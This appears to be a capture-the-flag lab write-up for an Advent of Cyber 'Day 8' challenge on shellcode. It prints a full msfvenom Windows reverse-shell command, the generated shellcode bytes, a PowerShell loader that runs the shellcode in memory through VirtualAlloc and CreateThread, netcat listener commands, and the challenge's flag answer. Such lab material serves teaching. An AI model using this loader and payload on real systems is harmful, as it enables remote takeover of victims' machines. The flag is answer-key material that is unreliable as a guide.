

# Day 8: Shellcodes of the world, unite!

## Background story
> The below is copied from the day 8 description.

*Glitch the hacker, clever yet distrusted,*<br>
*Wrote a script with skills finely adjusted.*<br>
*Shellcode magic to his home it would send,*<br>
*Where secrets of Wareville he'd carefully penned.*<br>

Glitch, a skilled but mistrusted hacker, was prepping for a tech conference. He was eager to share his shellcode script that remotely accessed his home system. As he worked, he noticed Mayor Malware's henchmen lurking nearby.

"*They're wasting their time. I don't have anything they'd want,*" Glitch chuckled.

He didn't realise that hidden in his home system was something they desperately sought—a research paper he wrote on Wareville's defences, a treasure Mayor Malware was eager to obtain.

## Learning objectives
- Grasp the fundamentals of writing shellcode
- Generate shellcode for reverse shells
- Executing shellcode with PowerShell

## Connecting to the machine
There is a button on the challenge page to start a machine. This opens in a split screen mode, so you can use the machine in the web browser. The challenge also provides login credentials if you want to use RDP to connect instead.

You also need the AttackBox for this challenge, as it requires some tools that I don't have installed on my local machine. 

## Essential Terminologies
The challenge page provides some definitions of the terms `Shellcode`, `PowerShell`, `Windows Defender`, `Windows API`, `Accessing Windows API through PowerShell Reflection`, and `Reverse Shell`. I'm not going to repeat the same information here. You can refer to the challenge page for more details.

## Generating Shellcode
We are going to generate a shellcode using the tool `msfvenom`. The challenge provides the command to generate the shellcode:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.145.95 LPORT=1111 -f powershell
```

This outputs:
```plaintext
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x4,0x57,0xa,0xa,0x91,0x5f,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```
> Note: The IP passed to `LHOST` in the command should be the IP of your own attack box.

The list of bytes is the shellcode (machine code instructions) that we can use to create a reverse shell. It will connect back to the IP address specified in the `LHOST` parameter on port `1111`.

We are going to execute this shellcode using a PowerShell script which also uses some C# code to access the Windows API.

The PowerShell script is provided in the challenge:
```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

The script is explained in the challenge, but I won't go into details here. We basically replace `SHELLCODE_PLACEHOLDER` with the shellcode generated by `msfvenom`.

## Time for Some Action - Executing the Shellcode
On the attack box, we run `nc` to listen on port `1111`:
```bash
nc -lvnp 1111
```

We create a file on the Attack Box Desktop which is a copy of the above PowerShell script with the shellcode inserted.

On the target Windows machine, we open PowerShell and enter the lines from the script file one by one. Once the last line is entered, the shellcode will execute and connect back to the Attack Box:



After entering the commands above, we can go back to the Attack Box and see the connection from the target machine:


## Regaining Access
The challenge says that access has been stopped through port `1111`, so we need to regain access through port `4444`. We can generate a new shellcode with the following command:
```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.145.95 LPORT=4444 -f powershell
```

Then we need the Attack Box to listen on port `4444`:
```bash
nc -lvnp 4444
```

We can then replace the shellcode in the PowerShell script with the new shellcode and run the script on the target machine as before.

The challenge says that a file containing the flag will appear in `C:\Users\glitch\Desktop\flag.txt`. We can check this by running the following command in the reverse shell:
```powershell
type C:\Users\glitch\Desktop\flag.txt
```
> Note: The challenge says that the flag.txt file may take a minute to appear.

## Answes to the questions
### What is the flag value?
The full question is: `What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the C:\Users\glitch\Desktop directory. You can view the content of the flag by using the command type C:\Users\glitch\Desktop\flag.txt.`

When getting the flag as descriped above, the flag is `AOC{GOT _MY_ACCESS_B@CK007}`.

### Remaining questions
The remaining questions only require you to click `Complete` and have no specific answers to find.


